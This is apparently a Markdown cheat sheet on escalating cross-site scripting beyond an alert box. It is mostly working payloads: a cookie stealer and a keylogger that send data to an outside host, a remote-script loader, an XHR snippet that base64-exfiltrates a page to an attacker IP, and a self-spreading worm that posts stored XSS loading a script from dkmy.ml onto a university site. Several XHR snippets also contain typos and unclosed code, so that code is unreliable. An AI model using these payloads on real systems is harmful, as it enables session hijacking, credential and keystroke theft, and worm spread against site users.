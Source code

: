 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Ping back
  ```js
  <script src="http://IP:PORT/"><script>
  ```

- Cookie Stealer
  ```js
  <img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
  ```

- Record key stokes

  Add this to a js file
  ```js
  var data = '';
  document.onkeypress = function(e) {
    var w = window.event ? event : e;
    var keystroke = w.keyCode ? w.keyCode : w.charCode;
    keystroke = String.fromCharCode(keystroke);
    data = data + keystroke;
  }
  window.setInterval(function(){
      new Image().src = 'http://5.5.5.5/?c=' + data;
      data = '';
  }, 1500);
  ```
  Then call the script in using xss
  ```js
  http://target.site/welcome.php?user=admin<script src='http://5.5.5.5/keylogger.js'></script>
  ```


## XHR examples

- Simple XHR
  - GET
    ```js
    var xhr = new XHMLHttpRequest();
    xhr.open("GET", "/url", true);
    xhr.send(null);
    ```

  - POST
    ```js
    var xhr = new XHMLHttpRequest();
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.open("POST", "/url", true);
    xhr.onreadystatechang = function() {
    if (this.readyState == XMLHttpRequest.DONE && this.status == 200){
    // Request finished do somethiung with data
    }};
    xhr.send(null);
    ```

- GET (a page)
  ```js
  var attackerurl = "http://10.10.14.86:80/";
  var targeturl = "http://ftp.crossfit.htb/accounts/create";

  var req = new XMLHttpRequest();
  req.onreadystatechange = function () {
    if (req.readyState == 4) {
      var req2 = new XMLHttpRequest();
      req2.open("GET", attackerurl + btoa(this.responseText), false);
      req2.send();
    }
  };
  req.open("GET", targeturl, false);
  req.send();
  ```
- GET (eg 2)
  ```js
  function exploit() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/iv/srtpHire_list.do?type=1', true);
    xhr.onreadystatechange = function () {
        if(xhr.readyState === 4 && xhr.status === 200) {
            var html = xhr.responseText;
            var item = new Set();
            while (r = re.exec(html)) {
                item.add(r[1]);
            }
            item = Array.from(item);
            var title = item[Math.floor(item.length*Math.random())];
            commit_proj(title);
        }
    };
    xhr.send(null);
  ```


- POST
  ```js
  function commit_proj(title) {
      var xhr = new XMLHttpRequest();
      var start_date = new Date();
      var end_date = new Date((new Date()).setMinutes(start_date.getDate() + 33));
      start_date = formatDate(start_date);
      end_date = formatDate(end_date);
      xhr.open("POST", '/iv/group_add.do', true);
      xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      data = "beginDate=" + start_date;
      data += "&btn1=发布信息";
      data += "&contactNumber=" + Math.floor(Math.random() * 1000000000);
      data += "&detail=西南jio痛大学简直强无敌！"
      data += "&endDate=" + end_date;
      data += "&group.acceptCollegeCode=0&group.contactWay=0&group.sortId=1"
      data += "&theme=" + title;
      data += "&title=" + title + "%3Cscript+src%3D'https%3A%2F%2Fdkmy.ml%2Fswjtu%2Fcxw''%3E%3C%2Fscript%3E"
      xhr.send(data);
  }
  ```


